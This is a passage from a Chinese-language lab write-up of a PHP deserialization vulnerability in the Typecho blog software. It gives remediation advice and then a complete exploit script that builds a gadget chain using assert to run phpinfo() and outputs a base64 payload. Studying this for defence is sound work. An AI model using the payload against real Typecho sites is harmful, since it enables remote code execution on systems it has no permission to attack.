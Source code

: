 
修复建议

 禁用反序列化用户输入：不要对用户可控的输入使用`unserialize()`，改用 JSON 格式并通过`json_decode()`解码。

限制魔术方法的使用：确保魔术方法中不会执行危险操作，避免调用用户可控的对象或函数。

 输入验证：对所有用户输入进行严格验证和过滤，确保输入符合预期格式。

#### 4.写exe.php代码

![image-20250606204742991](C:\Users\he'ye\AppData\Roaming\Typora\typora-user-images\image-20250606204742991.png)

```php
/*exp.php*/
<?php
class Typecho_Feed
{
    private $item;
	
    public function __construct(){
        $this->item = array(
            'author' => new Typecho_Request(),
        );
    }
}
class Typecho_Request
{
    private $_params = array();
    private $_filter = array();
    public function __construct(){
        $this->_params['screenName'] = 'phpinfo()';
        $this->_filter[0] = 'assert';
    }
}
$exp = array(
    'adapter' => new Typecho_Feed()
);
echo base64_encode(serialize($exp));
?>
```

定义了两个类`Typecho_Feed`和`Typecho_Request`，并创建了一个对象数组`$exp`，最后将该数组序列化并进行Base64编码输出。代码的主要目的是生成一个可利用的序列化字符串，用于触发PHP反序列化漏洞。

`Typecho_Feed`类包含一个私有成员`$item`，在构造函数中初始化为一个数组，其中`'author'`键对应的值是一个`Typecho_Request`对象的实例。`Typecho_Request`类包含两个私有成员`$_params`和`$_filter`，在构造函数中，`$_params`数组的`'screenName'`键被赋值为字符串`'phpinfo()'`，而`$_filter`数组的第一个元素被赋值为字符串`'assert'`。

当`$exp`数组被序列化并Base64编码后，生成的字符串可以被用作恶意输入，传递给存在反序列化漏洞的代码（如前一段代码中的`unserialize(base64_decode($_GET['__typecho_config']))`）。如果该恶意输入被反序列化，`Typecho_Feed`对象的`$item`成员中的`Typecho_Request`对象可能会触发`_applyFilter()`方法，进而调用`assert()`函数执行`phpinfo()`，从而导致信息泄露或其他恶意行为。

#### 5.进入网址127.0.0.1/exe.php
